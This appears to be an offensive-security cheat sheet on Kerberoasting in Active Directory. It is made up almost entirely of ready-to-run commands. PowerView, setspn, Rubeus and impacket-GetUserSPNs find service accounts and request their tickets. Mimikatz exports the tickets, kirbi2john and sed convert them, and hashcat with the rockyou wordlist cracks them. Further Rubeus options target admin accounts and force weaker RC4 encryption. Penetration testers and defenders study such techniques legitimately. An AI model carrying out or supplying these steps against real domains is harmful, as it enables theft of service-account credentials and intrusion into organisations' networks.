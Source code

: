 ```yaml
---
tags:
  - Authenticated
  - Kerberos
  - AD
---
```

## Identify
---
**Windows**
AD Module in powershell
```PowerShell
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```
Using Powerview
```PowerShell
Get-DomainUser -SPN -Properties samaccountname,ServicePrincipalName
```
Living off the land
```PowerShell
setspn.exe -Q */*
```
Using Rubeus
```Python
.\Rubeus.exe kerberoast /stats
```
**Linux**
```PowerShell
impacket-GetUserSPNs -dc-ip <dcip> domain.local/username
```
  
## Exploit
---
**From Linux**
```PowerShell
impacket-GetUserSPNs -dc-ip <dcip> domain.local/username -request
```
```PowerShell
impacket-GetUserSPNs -dc-ip <dcip> domain.local/username -request-user
```
you can also use `-outputfile <name>`

**Crack hash**
```PowerShell
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```
**From Windows**
- Semi-manual approach 

```Bash
setspn.exe -Q */*
```

```Bash
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.domain.local:1433"
```

```Bash
mimikatz # base64 /out:true
mimikatz # kerberos::list /export  
```

```Bash
echo "<base64 blob>" |  tr -d \\n 
```

```Bash
cat encoded_file | base64 -d > sqldev.kirbi
```

```Python
python2.7 kirbi2john.py sqldev.kirbi
```

This will create a file called `crack_file`. We then must modify the file a bit to be able to use Hashcat against the hash.

```Python
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```

Crack the file

```Python
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt 
```

!!! info "note"
	If we decide to skip the base64 output with Mimikatz and type `mimikatz # kerberos::list /export`, the .kirbi file (or files) will be written to disk. In this case, we can download the file(s) and run `kirbi2john.py` against them directly, skipping the base64 decoding step.

  

**PowerView**
```Python
Import-Module .\PowerView.ps1
Get-DomainUser * -spn | select samaccountname
```
```Python
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```
```Python
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```
**Rubeus**
List info about kerberoastable accounts
```Python
.\Rubeus.exe kerberoast /stats
```
target admin acccounts
```Python
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```
use tgt delegation to force RC4 downgrade of tickets. (Doesn't work on >= Win 2019)
```Python
.\Rubeus.exe kerberoast /tgtdeleg /nowrap
```
